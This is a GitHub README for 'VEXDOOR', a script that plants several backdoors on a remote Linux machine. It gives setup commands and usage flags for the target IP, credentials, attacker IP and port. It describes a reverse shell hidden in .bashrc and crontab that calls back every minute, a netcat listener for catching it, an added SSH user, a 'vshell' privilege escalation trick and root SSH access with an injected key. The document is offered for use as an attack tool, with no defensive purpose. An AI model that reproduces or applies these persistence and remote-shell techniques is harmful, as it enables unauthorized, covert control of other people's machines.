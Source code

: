 # VEXDOOR

vexdoor is a script created by vex that create a multi backdoors on one linux machine

## Installation

first you need to git the directory

```bash
git clone https://github.com/V33-777/VEXDOOR
```

after that you need to create a ssh public key using this command
```bash
ssh-keygen -t rsa -b 4096
```

now you need to move the public key to vexdoor directory

## SETUP

```bash
chmod +x Requirements.sh
chmod +x vexdoor
./vexdoor
```
atfer that you need just to use -h option to understand how it works:
```bash
VVVVVVVV           VVVVVVVV 333333333333333   XXXXXXX       XXXXXXX      
V::::::V           V::::::V3:::::::::::::::33 X:::::X       X:::::X      
V::::::V           V::::::V3::::::33333::::::3X:::::X       X:::::X      
V::::::V           V::::::V3333333     3:::::3X::::::X     X::::::X      
 V:::::V           V:::::V             3:::::3XXX:::::X   X:::::XXX      
  V:::::V         V:::::V              3:::::3   X:::::X X:::::X         
   V:::::V       V:::::V       33333333:::::3     X:::::X:::::X          
    V:::::V     V:::::V        3:::::::::::3       X:::::::::X           
     V:::::V   V:::::V         33333333:::::3      X:::::::::X         github:https://github.com/V3X-777     
      V:::::V V:::::V                  3:::::3    X:::::X:::::X          discord:s3cdet17
       V:::::V:::::V                   3:::::3   X:::::X X:::::X         
        V:::::::::V                    3:::::3XXX:::::X   X:::::XXX      
         V:::::::V         3333333     3:::::3X::::::X     X::::::X      
          V:::::V          3::::::33333::::::3X:::::X       X:::::X      
           V:::V           3:::::::::::::::33 X:::::X       X:::::X      
            VVV             333333333333333   XXXXXXX       XXXXXXX      
Backdoor Setup Script
---------------------
This script is created by V3X to create multi-backdoors on a remote machine.

Usage: ./try.sh -u <machine_username> -p <password> -U <your_username> -i <target_ip> -I <ip_user> -P <port> -k <public_key>
Options:
  -u <target_username>      : Remote machine username
  -P <password>              : Password for your user
  -U <your_username>         : Your username
  -I <your_ip>               : Your IP address
  -i <ip_target>               : IP target
  -p <port>                  : Port number
  -k <public_key>            : Path to SSH public key file

```
# USAGE
waiting to receive your revshell cuz i put your revshell in the .bashrc and in crontab so after 1 min you will receive it
```bash
[vex👽>  ]$ nc -lnvp "your port"
```
you can connect to the ssh with your user that you put it in the first 
```bash
[vex👽>  ]$ ssh username@ip
```
there is another trick if you find a way to entre to the machine you can high your privilege with this command
```bash
[vex👽>  ]$ vshell
```
you can login to the ssh by your id_rsa 
```bash
[vex👽>  ]$ ssh -i id_rsa root@ip
